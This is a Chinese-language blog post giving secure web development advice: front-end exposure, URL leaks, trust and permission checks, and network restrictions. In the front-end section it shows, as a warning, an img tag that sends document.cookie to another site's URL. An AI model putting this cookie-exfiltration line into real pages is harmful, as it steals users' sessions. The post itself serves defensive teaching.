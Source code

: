 ```yaml
---
title: WEB 应用安全开发
date: 2021-01-24 12:14:10
tags:
  - newwork
categories:
  - newwork
topdeclare: true
reward: true
---
```


# WEB 应用安全开发

黑客大部分利用的是软件的漏洞，所以我们要尽可能在开发的时候切断所有可能被利用的地方。要想开发出安全的系统，我们需要熟悉黑客进攻的模式和防守的策略。

# 简介

重视安全最好的策略是将风险最大化，开发的时候要换位思考，如果我是黑客我是不是有办法绕过当前的限制。在进行具体场景讲解前，先来了解一些关键词。

## 关键名词

- **同域：** 相同域名，端口相同，协议相同，缺一不可。
- **跨域：** 浏览器从一个域名的网页去请求另一个域名的资源时，域名、端口、协议至少有一个不相同，就是跨域。
- **ECMAScript：** 简称（ES）JavaScript 所遵循的语法标准。
- **W3C：** 即 万维网联盟 ，最重要的工作是发展 Web 规范，这些规范描述了 Web 的通信协议（比如 HTML 和 XHTML）和其他的构建模块。

## 安全领域的参与者

把握安全领域就要把握 Web 流程中的参与者，除了攻击者外其它角色均需要提供安全的解决方案。从大的方向有下面几大角色，没有谁是绝对安全的。

![image-20201202163205266](WEB_SAFE_02安全开发/image-20201202163205266.png)

#  前端安全开发

前端的安全主要围绕 W3C 进行，同时浏览器的漏洞和 Http 协议本身的缺陷也会造成影响。

##  明文防范

W3C 三个核心对象：HTML，JavaScript，CSS 分别负责了网站的内容结构，动作交互逻辑，展示样式。这么核心的东西在客户都是很容易查看的。虽然 JavaScript 可以混淆加密，但是最终他是需要被浏览器解析的，所以肯定是有一套固定的规范，黑客同样可以轻易解密。

明文也就算了，用户居然可以任意更改上面 W3C 的核心对象，并产生不同的效果，真的是危机四伏。

- 不要异想天开的在前端与后台约定某个加密算法，这样算法一下子就泄露了；
- 对于前端的输入都要保持怀疑，重要的数据如果后端允许，需要自行生成或者加以校验；
- 虽然客户端的一览无遗，但是还是要尽量使用 Https 协议，保证传输的过程是加密的；
- 需要权限的操作，即使前端按钮隐藏了，后端的接口也需要重新鉴权下，很可能客户端自己修改 CSS 使按钮显示出来了；

## URL 导致的泄露问题

前端任何地方带有 URL 的都要引起警惕，主要可能带来下面安全问题：

1. 构建系统的某些接口等用户登录后触发；
2. 调用别的网站，将该作用域下的 Cookie 传输出去。

常见隐藏点：

图片

```html
<img src='http:xxx'>
```

css 样式

```css
background:url(bgimage.gif)
```

表单 action 地址，或者注入隐藏的 input 参数

```html
<form action=''>
<input type="hidden" name="field＿name" value="value"> 
```

## window 下的全局变量

Window 下面带了很多可以直接使用的全局变量，要警惕危险。

![image-20201202163606377](WEB_SAFE_02安全开发/image-20201202163606377.png)

危险点：利用 window.document 获取本域 cookie 然后传输到黑客的网站

```html
<img src='别的网站URL?param='+document.cookie >
```

容易受跨站脚本攻击利用

```js
window.location.href = 【该值最好不要是动态的，容易被注入】
```

# 后端安全开发

## 规范问题

1. 权威机构平台漏洞订阅，并及时做出修改。
2. 开发规范的遵守
   - 学习相关开发规范手册。
   - IDEA 安装实时的代码扫描插件，有问题的地方及时更正。
3. 代码 review 实践。
4. 重要参数不要轻易在日志中输出。
5. 代码泄露
   - 代码不要上传网上。
   - 数据库，签名算法，密钥值 要重要保管，线上不相关的人不要泄露。
6. 重要账号不要为了一时方便提供给开发，测试 等不相干人员，如果有也要及时修改密码。

## 设计问题

1. 类似活动的抽奖，优惠卷领取逻辑不够严谨，可能被人褥羊毛；
2. 登录没有限制次数，容易被暴力破解；
3. 短信验证没有设置重发时间，容易被利用做短信轰炸。

##  信任问题

1. 同域：检查请求头的 **ref** 参数，要么是同域的，要么是信任的才响应。
2. 请求参数
   - 不要太信任前端参数，重要值后台能获取的尽量自己获取。
   - 请求的所有参数都做下 XSS/ SQL 注入 的关键字符的过滤。
3. 权限：涉及到权限的后端都要自己校验，不要说前端按钮隐藏了就可以了

## 增加风控逻辑

1. 用户的账号异地登陆，可以做出些限制或提醒。
2. 某个用户购买的某个商品或者领取的优惠卷异常多，做出限制。
3. 通过 AI 智能模型，对用户行为，流量数据进行检测，模型异常就做出限制。

## 网络策略限制

1. 数据库，Redis，ES，等需要设置访问的 IP 白名单。
2. 对服务器进流量和出流量端口做限制。
3. 架构上面尽量隐藏内部服务等地址。
4. 数据库和应用最好分开，以免被一锅端。

# 小结

安全问题需要经验累积，软件开发作为一个团队协作的工作，大家经验水平不同，所以尽量在团队中分享安全开发的相关知识，技术 Leader 定期 Review 组员代码。